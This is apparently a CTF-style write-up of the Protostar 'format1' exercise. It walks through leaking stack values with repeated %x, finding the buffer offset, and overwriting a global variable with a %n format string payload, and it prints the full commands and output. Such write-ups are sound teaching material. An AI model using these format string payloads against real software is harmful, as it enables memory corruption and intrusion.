 <h2>Goal</h2>

This exercise is the first real introduction into Format String exploits.  It will require sending a real format string character, such as `%s`, `%n`, `%d`, and `%x`. (There is a link in my Format0 writeup that explains more about Format Strings).


The vulnerability in this exercise is contained in the `printf()` statement.

```c
 printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
```
`printf()` is another special ANSI C function, the `string` variable is user input specified and not sanitized. These functions have linux MAN page entries, which has a helpful BUGS section. My distro's MAN pages did not have the full MAN page with the BUGS section, but the full MAN page can be found online just by google searching for the "printf man page".  You can read the full BUGS section on your own to understand, but sending a `%n` will cause `printf()` to write to memory.


<h2>Process</h2>

This task hints that `objdump -t` will be our friend. Since the goal here is to change the `target` variable lets use `objdump -t` on format1 executable and look for the `target` variable.  Look at the man page for objdump to understand what the `-t` switch does.

I found `target` at: `0x08049638`


Now let's find where we can overwrite memory.

```bash
./format1 `python -c 'print "BBBBBBBBB"+"%x "*150'`
```
Theres a few things to note about this statement to help understand the process.  More than 4 B's are provided to account for padding issues. Say for example we provided 4 B's but only 3/4 bytes of our target location are B's. Also note that `"%x "*150` is sending 150 `"%x "` with a space.  This space will affect the padding, but makes the output easier to read for now (you will see what I mean when you try this).

This command generates the output:

```bash
./format1 `python -c 'print "BBBBBBBBB"+"%x "*150'`
BBBBBBBBB804960c bffff618 8048469 b7fd8304 b7fd7ff4 bffff618 8048435 bffff7de b7ff1040 804845b b7fd7ff4 8048450 0 bffff698 b7eadc76 2 bffff6c4 bffff6d0 b7fe1848 bffff680 ffffffff b7ffeff4 804824d 1 bffff680 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff698 c125e8ab eb71debb 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6c4 8048450 8048440 b7ff1040 bffff6bc b7fff8f8 2 bffff7d4 bffff7de 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7bb 1f bffffff2 f bffff7cb 0 0 0 e000000 d43727e8 aaea1f64 84aeaf0 69d05f91 363836 0 6f662f2e 74616d72 42420031 42424242 25424242 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825```
```
What we are looking for in here is the is the last location where 4 B's, represented by ASCII `42424242`.  The 150 is an random value, if the B's do not occur, this value would need to be increased. In this 150 was sufficient, but `42424242` is not the last value, which means we need to narrow down to less. You can either count how many you need to remove or just trial and error to get the right amount. I removed 10, trying `"%x "*140`, then `"%x "*130` at which point I only needed to remove a few more chars.  

This command and the accompanying output shows the last values of all B's.
```bash
./format1 `python -c 'print "BBBBBBBBB"+"%x "*128'`
BBBBBBBB804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 c409ff39 ee5d4929 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 ea000000 9fb61b27 8f231df2 4d82c3bb 69f6e340 363836 0 2f2e0000 6d726f66 317461 42424242
```

Now it is time to replace four B's with the address of target from before `0x08049638`. This will require a bit of trial and error but for me replacing the first 4 B's worked.
```bash
./format1 "`python -c 'print "\x38\x96\x04\x08BBBBB"+"%x "*128'`"
```

Output:

```
8�BBBBB804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 7765f619 5d314009 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 a9000000 9b375abe 7b34444 48fd7a47 6928a4ca 363836 0 2f2e0000 6d726f66 317461 8049638
```
Looking at the end string we see the memory address we wanted is the last value. `0x8049638`

Now is to remove a `%x`, and add a `%n` as noted in the BUGS section of the MAN page for `printf()` which will write this value to memory.


<h2>Solution</h2>

```bash
./format1 "`python -c 'print "\x38\x96\x04\x08BBBBB"+"%x "*127+"%n "'`"
```

If you get padding errors and cannot seem to get the last four bytes to be the exact value, experiment with putting a couple of characters before and after, as well as removing some before and after the memory value.  Also remember the `"%x "`. THERE IS A SPACE. When replacing the final '%x' with `"%n "` remember to put in the space.

Output of solution code
```bash
./format1 "`python -c 'print "\x38\x96\x04\x08BBBBB"+"%x "*127+"%n "'`"
8�BBBBB804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 7cd9af5 2d992ce5 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9aa bffff9b8 bffff9cc bffff9f0 bffffa03 bffffa0d bffffefd bfffff3b bfffff4f bfffff66 bfffff77 bfffff7f bfffff8f bfffff9c bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 fabfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 3f000000 ad5d3300 d2c57c10 419c590b 69b087cf 363836 0 2f2e0000 6d726f66 317461  you have modified the target :)

```
